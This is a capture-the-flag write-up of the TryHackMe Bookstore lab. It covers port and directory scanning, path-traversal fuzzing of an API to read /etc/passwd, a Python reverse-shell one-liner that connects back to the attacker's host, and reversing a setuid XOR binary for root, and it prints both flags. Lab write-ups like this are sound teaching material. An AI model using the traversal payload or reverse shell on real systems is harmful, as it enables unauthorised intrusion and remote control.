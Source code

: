 # TryHackMe - Bookstore Penetration Testing Writeup

This document provides a detailed writeup on the penetration test performed on the Bookstore machine hosted on TryHackMe.

## **1. Initial Reconnaissance**

The first step of any penetration test is an initial scan to determine what services are running.

```bash
root@ip-10-10-183-17:~# nmap -sC -sV 10.10.14.108 
```

The key findings from the scan are:

- SSH (port 22) is open.
- HTTP (port 80) is serving an Apache server.
- Another HTTP instance (port 5000) is identified as the Werkzeug httpd, with an exposed API endpoint `/api`.

## **2. Web Enumeration**

Upon visiting the website at:

- `http://10.10.14.108`
- `http://10.10.14.108/books`
- `http://10.10.14.108/login`

We discovered interesting information:

- Source code of `/books` revealed an API call endpoint.
- A comment hinting at a version vulnerability in the API.
- The `/login` page had a development comment, indicating the presence of a debugger PIN in sid's bash history file.

To further uncover the directories and files, we used `gobuster`:

```bash
root@ip-10-10-183-17:~# gobuster dir -w /usr/share/wordlists/SecLists/Discovery/Web-Content/common.txt -u http://10.10.14.108:5000
```

Discoveries:

- `/api` exposed API documentation.
- `/console` revealed the Werkzeug Debugger Console, but it required a PIN.

## **3. API Exploitation**

An exploration of the API exposed potential endpoints. To identify vulnerabilities, we fuzzed the API:

```bash
root@ip-10-10-183-17:~# wfuzz -z file,/usr/share/wordlists/SecLists/Discovery/Web-Content/api/objects.txt -u http://10.10.14.108:5000/api/v1/resources/books?FUZZ=../../../../../etc/passwd --hc 404
```

This identified a potential local file disclosure vulnerability using the `show` parameter. Successfully exploiting it revealed the pin `123-321-135`.

## **4. Gaining Initial Access**

Utilizing the discovered PIN, we accessed the Werkzeug Debugger Console and executed the following command to obtain a reverse shell:

```python
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.183.17",9001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);
```

From the obtained shell, we extracted the user flag:

```bash
sid@bookstore:~$ cat user.txt
4ea65eb80ed441adb68246ddf7b964ab
```

## **5. Privilege Escalation**

On the server, a setuid binary named `try-harder` was discovered. After a local disassembly and reverse engineering, it was determined that the program performs an XOR operation against specific inputs.

### Disassembly of `try-harder` Binary

Upon disassembling the `try-harder` binary, we obtained the following assembly code for the main function:

```assembly
   0x00005555555547aa <+0>:    push   rbp
   0x00005555555547ab <+1>:    mov    rbp,rsp
   0x00005555555547ae <+4>:    sub    rsp,0x20
   0x00005555555547b2 <+8>:    mov    rax,QWORD PTR fs:0x28
   0x00005555555547bb <+17>:   mov    QWORD PTR [rbp-0x8],rax
   0x00005555555547bf <+21>:   xor    eax,eax
   0x00005555555547c1 <+23>:   mov    edi,0x0
   0x00005555555547c6 <+28>:   call   0x555555554680 <setuid@plt>
   0x00005555555547cb <+33>:   mov    DWORD PTR [rbp-0x10],0x5db3
   0x00005555555547d2 <+40>:   lea    rdi,[rip+0xfb]        # 0x5555555548d4
   0x00005555555547d9 <+47>:   call   0x555555554640 <puts@plt>
   0x00005555555547de <+52>:   lea    rax,[rbp-0x14]
   0x00005555555547e2 <+56>:   mov    rsi,rax
   0x00005555555547e5 <+59>:   lea    rdi,[rip+0x102]        # 0x5555555548ee
   0x00005555555547ec <+66>:   mov    eax,0x0
   0x00005555555547f1 <+71>:   call   0x555555554670 <__isoc99_scanf@plt>
   0x00005555555547f6 <+76>:   mov    eax,DWORD PTR [rbp-0x14]
   0x00005555555547f9 <+79>:   xor    eax,0x1116
   0x00005555555547fe <+84>:   mov    DWORD PTR [rbp-0xc],eax
   0x0000555555554801 <+87>:   mov    eax,DWORD PTR [rbp-0x10]
   0x0000555555554804 <+90>:   xor    DWORD PTR [rbp-0xc],eax
   0x0000555555554807 <+93>:   cmp    DWORD PTR [rbp-0xc],0x5dcd21f4
   0x000055555555480e <+100>:  jne    0x555555554823 <main+121>
```

Key observations:

1. The challenge's success criteria: Bypass the jump at `<+100>`.
```assembly
   0x000055555555480e <+100>:  jne    0x555555554823 <main+121>
```

2. A value `0x5db3 (23987)` is assigned to a variable at `rbp-0x10`.
```assembly
   0x00005555555547cb <+33>:   mov    DWORD PTR [rbp-0x10],0x5db3
```

3. User input is taken and XORed with `0x1116 (4374)` before being stored at `rbp-0xc`.
```assembly
   0x00005555555547f1 <+71>:   call   0x555555554670 <__isoc99_scanf@plt>
   0x00005555555547f6 <+76>:   mov    eax,DWORD PTR [rbp-0x14]
   0x00005555555547f9 <+79>:   xor    eax,0x1116
   0x00005555555547fe <+84>:   mov    DWORD PTR [rbp-0xc],eax
```

4. For a successful bypass, XORing the value at `rbp-0x10` with the result of our XORed input should match `0x5dcd21f4 (1573724660)`.
```assembly
   0x0000555555554801 <+87>:   mov    eax,DWORD PTR [rbp-0x10]
   0x0000555555554804 <+90>:   xor    DWORD PTR [rbp-0xc],eax
   0x0000555555554807 <+93>:   cmp    DWORD PTR [rbp-0xc],0x5dcd21f4
```

Resulting input calculation:
```
our_input = 0x5db3 ^ 0x1116 ^ 0x5dcd21f4 = 1573743953
```
or
```
our_input = 23987 ^ 4374 ^ 1573724660 = 1573743953
```

### Getting a root shell

Calculating the correct input granted us a root shell:

```bash
sid@bookstore:~$ ./try-harder 
What's The Magic Number?!
1573743953
root@bookstore:~#
```

With escalated privileges, we extracted the root flag:

```bash
root@bookstore:~# cat /root/root.txt
e29b05fba5b2a7e69c24a450893158e3
```
